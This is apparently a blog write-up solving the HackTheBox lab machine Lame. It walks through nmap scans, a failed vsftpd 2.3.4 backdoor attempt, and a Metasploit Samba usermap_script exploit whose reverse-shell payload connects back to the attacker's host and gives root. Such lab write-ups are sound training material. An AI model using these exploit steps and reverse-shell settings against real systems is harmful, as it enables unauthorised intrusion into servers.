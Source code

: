 ```yaml
---
layout: post
title: HackTheBox - Lame
date: 2018-07-03 23:00:00 +0000
categories:
- hackthebox
description: Solutions for HackTheBox Lame
image:
  feature: lame.jpg
  credit: 
  creditlink: 
---
```

This writeup details attacking the machine Lame (10.10.10.3) on [HackTheBox](www.hackthebox.eu).

Enumeration
-----------
First things first, as with any machine, we want to nmap scan it to see what ports are open.  
```bash
root@kali:~/reboare.github.io/_posts# nmap -p- 10.10.10.3 -T4

Nmap scan report for 10.10.10.3
Host is up (0.062s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

Nmap done: 1 IP address (1 host up) scanned in 437.65 seconds
```
So we have a bunch of ports open, the next step is to perform a more in depth scan on these ports.

```bash
root@kali:~/reboare.github.io/_posts# nmap -p 21,22,139,445,3632 10.10.10.3 -A

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-08-21 12:21 BST
Nmap scan report for 10.10.10.3
Host is up (0.17s latency).
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), Linux 2.6.23 (92%), Control4 HC-300 home controller (92%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%), Linux 2.6.27 - 2.6.28 (92%), Linux 2.6.8 - 2.6.30 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP
|_  System time: 2017-08-18T03:23:21-04:00

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   168.26 ms 10.10.14.1
2   251.04 ms 10.10.10.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.89 seconds
```
THe first target that looks like it would be exploitable is the ftp server version, vsftpd 2.3.4.  For those who don't know, this version of vsftpd was compromised, not via the source code, but by an exploitable version being uploaded to the master site.  Exploiting it is as simple as sending a smiley-face ':)' as the username credential.  This will then open a shell on port 6200.  

However, a quick and dirty test reveals that this method doesn't work.
```bash
root@kali:~# ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:root): :)
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> exit
221 Goodbye.
root@kali:~# nmap -p 6200 10.10.10.3

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-08-21 12:26 BST
Nmap scan report for 10.10.10.3
Host is up (0.037s latency).
PORT     STATE    SERVICE
6200/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 0.83 seconds
```
Since there was no fix to the source code, fixing this vulnerability didn't necessitate a version change.  This was just placed as a red-herring.

So with that failing lets attempt to attack the samba service.  We can see from the namp scan that it's running version 3.0.20, so lets check metasploit to see if anything pops up.

```bash
msf > search samba
[!] Module database cache not built yet, using slow search

Matching Modules
================

   Name                                            Disclosure Date  Rank       Description
   ----                                            ---------------  ----       -----------
   auxiliary/admin/smb/samba_symlink_traversal                      normal     Samba Symlink Directory Traversal
   auxiliary/dos/samba/lsa_addprivs_heap                            normal     Samba lsa_io_privilege_set Heap Overflow
   auxiliary/dos/samba/lsa_transnames_heap                          normal     Samba lsa_io_trans_names Heap Overflow
   auxiliary/dos/samba/read_nttrans_ea_list                         normal     Samba read_nttrans_ea_list Integer Overflow
   auxiliary/scanner/rsync/modules_list                             normal     List Rsync Modules
   auxiliary/scanner/smb/smb_uninit_cred                            normal     Samba _netr_ServerPasswordSet Uninitialized Credential State
   exploit/freebsd/samba/trans2open                2003-04-07       great      Samba trans2open Overflow (*BSD x86)
   exploit/linux/samba/chain_reply                 2010-06-16       good       Samba chain_reply Memory Corruption (Linux x86)
   exploit/linux/samba/lsa_transnames_heap         2007-05-14       good       Samba lsa_io_trans_names Heap Overflow
   exploit/linux/samba/setinfopolicy_heap          2012-04-10       normal     Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   exploit/linux/samba/trans2open                  2003-04-07       great      Samba trans2open Overflow (Linux x86)
   exploit/multi/samba/nttrans                     2003-04-07       average    Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   exploit/multi/samba/usermap_script              2007-05-14       excellent  Samba "username map script" Command Execution
   exploit/osx/samba/lsa_transnames_heap           2007-05-14       average    Samba lsa_io_trans_names Heap Overflow
   exploit/osx/samba/trans2open                    2003-04-07       great      Samba trans2open Overflow (Mac OS X PPC)
   exploit/solaris/samba/lsa_transnames_heap       2007-05-14       average    Samba lsa_io_trans_names Heap Overflow
   exploit/solaris/samba/trans2open                2003-04-07       great      Samba trans2open Overflow (Solaris SPARC)
   exploit/unix/misc/distcc_exec                   2002-02-01       excellent  DistCC Daemon Command Execution
   exploit/unix/webapp/citrix_access_gateway_exec  2010-12-21       excellent  Citrix Access Gateway Command Execution
   exploit/windows/fileformat/ms14_060_sandworm    2014-10-14       excellent  MS14-060 Microsoft Windows OLE Package Manager Code Execution
   exploit/windows/http/sambar6_search_results     2003-06-21       normal     Sambar 6 Search Results Buffer Overflow
   exploit/windows/license/calicclnt_getconfig     2005-03-02       average    Computer Associates License Client GETCONFIG Overflow
   exploit/windows/smb/group_policy_startup        2015-01-26       manual     Group Policy Script Execution From Shared Resource
   post/linux/gather/enum_configs                                   normal     Linux Gather Configurations
```
Quite a few exploits for samba, but doing some research reveals that samba/usermap_script targets versions `3.0.20 through 3.0.25rc3`.  So lets try that one.
```bash
msf > use exploit/multi/samba/usermap_script 
msf exploit(usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf exploit(usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf exploit(usermap_script) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf exploit(usermap_script) > set LHOST 10.10.13.126
LHOST => 10.10.13.126

msf exploit(usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.13.126:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo g2J1cK9h6SBFE0RL;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "g2J1cK9h6SBFE0RL\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.13.126:4444 -> 10.10.10.3:50926) at 2017-05-17 17:31:24 +0100
```
It works and we have a root shell.
